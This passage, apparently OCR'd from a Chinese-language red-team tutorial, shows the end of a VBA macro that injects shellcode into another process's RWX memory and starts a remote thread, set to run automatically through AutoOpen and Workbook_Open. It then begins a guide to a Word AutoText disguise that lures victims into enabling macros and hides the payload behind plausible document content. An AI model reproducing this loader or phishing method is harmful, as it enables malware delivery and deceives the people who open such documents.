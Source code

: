 ```plaintext
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

**Word 自动图文集伪装钓鱼**

利用过程是打开 Word 文档展示一个页面，诱导你开启宏，当启用后，自动会把 Word 内容删除插入图文集内容，以迷惑人员。根本上其实就是利用宏做事情。

先建立好一个正常文档，把内容全选，通过“插入 -> 文档部件 -> 自动图文集 -> 将所选内容保存到自动图文集”，英文路径是“Insert -> Quick Parts -> Auto Text -> Save Selection to AutoText Gallery”。

![保存内容到自动图文集.png](assets/1708583825-61bccfb35e063d0bf9840cfb6e505a37.png)

正常文档保存到图文集后，可以将内容删除，后面通过宏自动插入。目前需要诱导受害者开启宏，我们编辑一条文案。
